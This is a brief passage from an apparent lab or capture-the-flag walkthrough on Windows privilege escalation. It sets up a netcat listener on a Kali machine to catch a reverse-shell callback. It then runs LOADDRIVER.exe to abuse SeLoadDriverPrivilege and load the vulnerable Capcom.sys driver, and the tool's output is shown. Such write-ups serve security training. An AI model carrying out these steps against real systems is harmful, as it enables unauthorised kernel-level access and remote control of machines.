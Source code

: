 ![](images/file-uploads.png)

On our Kali box, we'll start a `netcat` listener in preparation to capture a callback.

```
nc -lvnp 4444
```

Now, let's start performing the exploit. We'll run the `LOADDRIVER.exe` to prepare the driver.

```
> .\LOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```
